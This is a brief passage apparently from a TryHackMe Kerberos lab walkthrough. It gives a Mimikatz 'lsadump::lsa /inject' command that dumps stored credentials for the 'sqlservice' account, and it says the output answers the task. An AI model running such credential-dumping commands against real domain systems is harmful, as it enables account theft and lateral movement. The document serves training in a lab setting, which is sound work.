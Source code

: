 Same here but name = sqlservice
```cmd
lsadump::lsa /inject /name:sqlservice
```

The output will provide your answer for the task.
![](/assets/images/thm/kerberos/mimikatz-sql.png)
